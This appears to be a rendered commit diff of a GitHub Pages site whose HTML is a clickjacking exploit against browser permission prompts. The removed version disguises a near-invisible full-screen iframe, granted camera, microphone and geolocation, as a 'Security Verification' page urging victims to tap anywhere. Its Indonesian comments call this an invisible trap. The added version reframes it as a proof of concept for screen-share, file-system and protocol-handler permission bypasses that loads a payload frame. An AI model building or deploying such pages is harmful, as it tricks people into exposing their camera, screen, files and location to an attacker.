

Before and after one commit to googlelogo-security/googlelogo-security.github.io, a plain HTML site: page index.html in a window 1280 px wide. Shown: the whole page, without its empty margins (319-959 px from the left). Drawn offline with Linux system fonts and the light colour scheme.

Commit message:
Update index.html

```diff
--- a/index.html
+++ b/index.html
@@ -1,69 +1,35 @@
 <!doctype html>
-<html lang="en">
+<html>
 <head>
-  <meta charset="UTF-8">
-  <meta name="viewport" content="width=device-width, initial-scale=1.0, user-scalable=no">
-  <title>Account Verification</title>
-  <style>
-    body, html {
-      margin: 0;
-      padding: 0;
-      height: 100%;
-      font-family: -apple-system, BlinkMacSystemFont, "Segoe UI", Roboto, sans-serif;
-      background: #f8f9fa;
-      overflow: hidden;
-    }
-    .container {
-      display: flex;
-      flex-direction: column;
-      align-items: center;
-      justify-content: center;
-      height: 100vh;
-      text-align: center;
-      padding: 20px;
-      box-sizing: border-box;
-    }
-    h2 {
-      color: #202124;
-      margin-bottom: 10px;
-      font-size: 22px;
-    }
-    p {
-      color: #1a73e8;
-      font-size: 18px;
-      font-weight: 600;
-      animation: pulse 1.5s infinite;
-    }
-    @keyframes pulse {
-      0% { opacity: 1; }
-      50% { opacity: 0.5; }
-      100% { opacity: 1; }
-    }
-
-    /*
-       THE INVISIBLE TRAP
-       Iframe dibikin transparan dan nutupin 100% layar.
-       Korban ngeklik layar = ngeklik iframe = bypass tereksekusi!
-    */
-    #frame {
-      position: absolute;
-      top: 0;
-      left: 0;
-      width: 100vw;
-      height: 100vh;
-      border: 0;
-      z-index: 999;
-      opacity: 0.01;
-    }
-  </style>
+<style>
+html, body { font-family: sans-serif; overflow: hidden; }
+#instructions { text-align: center; margin-top: 50px; font-size: 1.5em; user-select: none; font-weight: bold;}
+#frame { position: absolute; top: 0; left: 0; width: 100vw; height: 100vh; z-index: 1; border: 0; }
+#variations { padding: 1em; border-radius: 8px; position: relative; z-index: 2; width: fit-content; margin: 20px auto; border: 1px solid #999; background: white; }
+li { margin: 10px 0; font-size: 1.2em; }
+</style>
+<meta name="viewport" content="width=device-width, initial-scale=1">
 </head>
 <body>
-  <div class="container">
-    <h2>Security Verification</h2>
-    <p>👆 TAP ANYWHERE TO CONTINUE 👆</p>
-  </div>
+<h2 style="text-align: center;">PoC: Native UI Ligature Bypass (Real Vuln)</h2>
+<div id="variations">
+    <strong>The Forgotten APIs:</strong>
+    <ul>
+        <li><a href="?mode=screenshare">1. Screen Share (getDisplayMedia)</a></li>
+        <li><a href="?mode=filesystem">2. File System Access (showOpenFilePicker)</a></li>
+        <li><a href="?mode=protocol">3. Protocol Handler (registerProtocol)</a></li>
+    </ul>
+</div>
+<p id="instructions">Click anywhere</p>
 
-  <!-- Ini akan meload file UI Redressing lu secara tersembunyi -->
-  <iframe id="frame" allow="camera *; microphone *; geolocation *" src="ligatures-perm-frame.html"></iframe>
+<iframe id="frame" allow="display-capture *; camera *; microphone *"></iframe>
+
+<script>
+var searchParams = new URLSearchParams(window.location.search);
+var mode = searchParams.get('mode') || 'screenshare';
+
+// Arahkan ke file payload. Pastikan diload dari domain googlelogoligature!
+frame.src = 'ligatures-perm-frame.html?mode=' + mode;
+</script>
 </body>
 </html>
```
